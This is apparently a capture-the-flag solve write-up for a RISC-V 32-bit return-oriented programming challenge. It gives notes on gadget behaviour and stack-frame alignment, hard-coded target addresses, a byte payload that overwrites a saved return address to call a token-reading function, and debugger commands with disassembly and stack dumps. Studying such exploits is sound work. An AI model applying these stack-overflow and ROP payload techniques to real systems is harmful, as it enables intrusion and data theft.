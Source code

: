 # Solve 1 Explanation

Addresses are all dependent upon what has been compiled. `-exec` commands are for debugging sessions

## Notes on RISCV32 ROPPING
1. function prologues must be skipped, otherwise infinite loop
2. function calls are aligned by how much local space is reserved each function (multiples of 16) and may become misaligned 
3. fix 2 with a `align stack frame` gadget
4. the stack pointer (sp) is for return address
5. a second stack frame pointer (fp or s0) is used to make use of stack values/variables
6. the gadget for return is 3 instructions:

```c
    lw	ra,(x-4)(sp)
    //...
    addi	sp,sp,x
    ret
```
* x is multiple of 16
* `lw ra,` may not be located next to the rest of the instructions, which means there may be unavoidable consquences to a gagdet that must be taken into account

7. So far I haven't found how to move the sp besides function prologue/epilogue, but would necessary to make longer more complicated rop chains (esp with a limited buffer)
8. To prevent a crash following the stack frame up to a function which can be returned in to is possible, requires aligning the stack frames in 3


0x94901118 write_token function
0x94903320 token storage location
0x949033a4 ch string location

## Get token into memory
Call readTokenFile to load token in global variable `ch` 

1. -exec set {int}0x93f97c9c=0x949011b2	    // read file and store token in ch (readTokenFile+6)
2. -exec set {int}0x93f97cbc=0x692e7896 	// align stack frame
```c
[0x30,0x31,0x32,0x33,0x34,0x35,0x36,0x37,0x38,0x39,0x3a,0x3b,0x3c,0x3d,0x3e,0x3f,0x40,0x41,0x42,0x43,0x44,0x45,0x46,0x47,0x48,0x49,0x4a,0x4b,0xb2,0x11,0x90,0x94,0x50,0x51,0x52,0x53,0x54,0x55,0x56,0x57,0x58,0x59,0x5a,0x5b,0x5c,0x5d,0x5e,0x5f,0x60,0x61,0x62,0x63,0x64,0x65,0x66,0x67,0x68,0x69,0x6a,0x6b,0x96,0x78,0x2e,0x69]
```

```c
// Dump of assembler code for function readTokenFile:
   0x949011a0 <+0>:	addi	sp,sp,-32
   0x949011a2 <+2>:	sw	ra,28(sp)
   0x949011a4 <+4>:	sw	s0,24(sp)
   0x949011a6 <+6>:	addi	s0,sp,32                // START, to ensure we have the stack frame
   0x949011a8 <+8>:	auipc	a1,0x0
   //....
   0x94901218 <+120>:	nop
   0x9490121a <+122>:	lw	ra,28(sp)
   0x9490121c <+124>:	lw	s0,24(sp)
   0x9490121e <+126>:	addi	sp,sp,32
   0x94901220 <+128>:	ret
```
```c
-exec x/32wx $sp
0x93f97c70:	0x03720010	0x00000001	0x69303834	0x9490317c
0x93f97c80:	0x33323130	0x37363534	0x3b3a3938	0x3f3e3d3c  // START
0x93f97c90:	0x43424140	0x47464544	0x4b4a4948	0x949011a6  // c9c overwrite ra
```